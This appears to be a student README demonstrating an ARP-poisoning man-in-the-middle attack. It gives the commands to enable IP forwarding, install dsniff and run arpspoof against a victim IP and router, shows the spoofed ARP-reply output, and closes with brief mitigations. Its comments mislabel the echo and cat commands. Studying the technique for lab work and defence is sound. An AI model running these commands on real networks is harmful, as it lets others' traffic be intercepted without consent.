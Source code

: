 # Man In the Middle (MITM) attach - ARP Poisioning

## Modify Routing Status

File: /proc/sys/net/ipv4/ip_forward  

It signifies the routing of the packets to the current machine, which means all the packets going the router will also get delivered to the current address as well [1].

Command to modifying the status the routing of the packet
```
// Mode changed to super user
sudo su
// Print 1
# echo 1 > /proc/sys/net/ipv4/ip_forward
// Concatenate 1 to 'ip_forward'
# cat /proc/sys/net/ipv4/ip_forward
```


## Perform packet spoof

Install **dsniff**: Library to perform the packet sniffing and spoofing
Command: `sudo apt-get install dsniff`

Command to spoof: 
`sudo arpspoof -i wlp2s0 -t 192.168.0.94 192.168.0.1`

Explanation: 
- wlp2s0: Device
- Victim Private IP: 192.168.0.94
- Router IP Address: 192.168.0.1

Output Screenshot:
![Screenshot](SpoofingResult.png)


Output:  
```
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
```


## Steps to over the ARP Poising

- Do not have a weak security mode for the Network, because it cannot prohibit unauthorized intrusion in the network.
- Having a weak password for the network security can be comprised if dealt with brute-force attack, or running authentication loop to authenticate with the commonly used words.
- Use CISCO routers that can help to examine the ARP spoofing.
- Detection Tools: ARP spoofing can be detected by the usage of the third-party tool like XArp
- Packet filtering and inspection can detect poisoned packets and catch them before reaching the destination (Or Attacker) [2].
- VPN can be relied upon to have a secure connections.


## Reference

1. https://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding
2. https://www.indusface.com/blog/protect-arp-poisoning/